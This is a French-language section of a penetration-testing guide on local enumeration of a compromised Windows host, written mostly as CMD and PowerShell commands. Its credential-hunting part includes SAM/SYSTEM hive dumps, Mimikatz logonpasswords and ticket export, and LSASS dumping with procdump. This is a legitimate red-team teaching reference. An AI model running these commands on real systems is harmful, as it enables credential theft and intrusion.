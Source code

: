 # IV.A. Énumération Locale Approfondie

Une fois un accès obtenu sur une machine, une énumération locale détaillée est essentielle pour comprendre le système, trouver des informations sensibles, et identifier des vecteurs d'élévation de privilèges locaux ou de mouvement latéral.

## 1. Informations Système et Réseau

*   **Objectif :** Collecter des informations de base sur le système d'exploitation, l'architecture, les patchs, la configuration réseau, et l'appartenance au domaine.
*   **Commandes (Windows CMD/PowerShell) :**
    ```cmd
    REM Informations Système
    systeminfo
    hostname
    whoami /all
    echo %USERNAME%
    echo %USERDOMAIN%
    set                             # Variables d'environnement
    ver
    wmic qfe get Caption,Description,HotFixID,InstalledOn # Patchs installés

    REM Informations Réseau
    ipconfig /all
    arp -a
    route print
    netstat -ano                  # Connexions actives, ports en écoute
    netsh advfirewall show allprofiles # Configuration du pare-feu Windows
    nltest /domain_trusts         # Relations de confiance du domaine (si machine jointe)
    nltest /dsgetdc:%USERDNSDOMAIN% # Trouver un DC
    ```
    ```powershell
    # PowerShell équivalents et améliorations
    Get-ComputerInfo
    $env:USERNAME
    $env:USERDOMAIN
    Get-HotFix
    Get-NetIPConfiguration -Detailed
    Get-NetNeighbor
    Get-NetRoute
    Get-NetTCPConnection
    Get-NetFirewallProfile -Profile Domain,Private,Public | Select-Object Name, Enabled
    Get-NetFirewallRule | Where-Object {$_.Enabled -eq "True" -and $_.Direction -eq "Inbound"} | Select-Object DisplayName, Enabled, Direction, Action
    (Get-ADDomainController -Discover -DomainName $env:USERDNSDOMAIN).HostName
    ```

## 2. Utilisateurs, Groupes Locaux et Sessions

*   **Objectif :** Identifier les utilisateurs locaux, les groupes (surtout `Administrators`), et les sessions actives.
*   **Commandes :**
    ```cmd
    net user
    net user <utilisateur>
    net localgroup
    net localgroup Administrators
    query user                    # Sessions RDP et console (qwinsta)
    quser
    ```
    ```powershell
    Get-LocalUser
    Get-LocalGroup
    Get-LocalGroupMember -Group "Administrators"
    Get-LoggedOnUser # Nécessite des outils comme PSTools (PsLoggedon) ou des scripts PowerShell
    ```

## 3. Processus, Services et Tâches Planifiées

*   **Objectif :** Identifier les processus en cours (surtout ceux avec des privilèges élevés), les services (et leurs permissions), et les tâches planifiées (potentiel de persistance ou d'exécution de code).
*   **Commandes :**
    ```cmd
    tasklist /v                   # Processus détaillés
    tasklist /svc                 # Processus et services associés
    wmic process get Caption,CommandLine,ProcessId,ParentProcessId,ExecutablePath
    net start                     # Services démarrés
    sc query                      # Tous les services
    sc qc <nom_service>           # Configuration d'un service (chemin binaire, compte de service)
    schtasks /query /fo LIST /v   # Tâches planifiées détaillées
    ```
    ```powershell
    Get-Process -IncludeUserName
    Get-Service | Select-Object Name, DisplayName, Status, StartType, PathName
    Get-ScheduledTask | Select-Object TaskName, TaskPath, State, Actions, Principal
    (Get-ScheduledTask <NOM_TACHE>).Actions
    (Get-ScheduledTask <NOM_TACHE>).Principal
    ```
    *   **Outils :** `accesschk.exe` (Sysinternals) pour vérifier les permissions sur les services/processus.
        ```cmd
        accesschk.exe -uwcqv "Authenticated Users" * /accepteula # Services modifiables par les utilisateurs authentifiés
        accesschk.exe -ucqv <NOM_SERVICE>
        ```

## 4. Recherche de Credentials et Informations Sensibles

*   **Objectif :** Trouver des mots de passe en clair, des hashes, des clés API, des fichiers de configuration sensibles, etc.
*   **Emplacements et Techniques :**
    *   **Fichiers de configuration :** `web.config`, `appsettings.json`, scripts PowerShell/Batch (`.ps1`, `.bat`), fichiers `unattend.xml`, `SAM`/`SYSTEM` (backups).
        ```cmd
        dir /s /b *pass*.*
        dir /s /b *.config
        findstr /si "password" *.xml *.ini *.txt *.config *.ps1
        ```
        ```powershell
        Get-ChildItem -Path C:\ -Recurse -Include "*.config","*.xml","*.ini","*.txt","*.ps1","*unattend.xml*" -ErrorAction SilentlyContinue | Select-String -Pattern "password","apikey","secret"
        ```
    *   **SAM/SYSTEM (pour hashes locaux) :**
        ```cmd
        reg save HKLM\SAM C:\temp\sam.save
        reg save HKLM\SYSTEM C:\temp\system.save
        # Nécessite des droits admin. Extraire ensuite avec Mimikatz, secretsdump.py.
        ```
    *   **LSASS (Local Security Authority Subsystem Service) :**
        *   **Mimikatz (nécessite des droits admin/SYSTEM) :**
            ```powershell
            # Invoke-Mimikatz (PowerSploit)
            Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
            # mimikatz.exe
            privilege::debug
            sekurlsa::logonpasswords
            sekurlsa::tickets /export # Exporter les tickets Kerberos
            ```
        *   **Dump de LSASS (puis analyse hors ligne) :**
            ```cmd
            # Via Task Manager (clic droit sur lsass.exe -> Create dump file)
            # Via procdump (Sysinternals)
            procdump.exe -accepteula -ma lsass.exe lsass.dmp
            ```
    *   **Historique PowerShell :**
        ```powershell
        Get-Content (Get-PSReadlineOption).HistorySavePath
        ```
    *   **Credentials Manager (Vault) :**
        ```cmd
        cmdkey /list
        ```
        ```powershell
        # Utiliser des outils comme VaultPasswordView (NirSoft) ou des scripts PowerShell.
        # PowerSploit: Get-VaultCredential
        ```
    *   **Logiciels installés :** Certains logiciels stockent des credentials (clients FTP, SGBD, navigateurs).
        *   **Navigateurs :** Outils comme `LaZagne`, `SharpChromium`.
    *   **Partages réseau montés.**
    *   **Clés SSH privées.**

## 5. Logiciels Installés et Vulnérabilités Locales

*   **Objectif :** Identifier les logiciels installés, leurs versions, et rechercher des vulnérabilités connues pouvant mener à une élévation de privilèges locale.
*   **Commandes :**
    ```cmd
    wmic product get name,version,vendor
    ```
    ```powershell
    Get-WmiObject -Class Win32_Product | Select-Object Name, Version, Vendor
    # Pour les applications non MSI (plus complet) :
    Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table –AutoSize
    Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table –AutoSize
    ```
*   **Outils d'audit de vulnérabilités locales :** `Sherlock.ps1`, `Watson.exe`, `Seatbelt.exe`, `WinPEAS.bat/exe`.
    ```powershell
    # Sherlock
    # Find-AllVulns
    ```

Cette énumération doit être méthodique et les résultats soigneusement documentés pour les étapes suivantes. 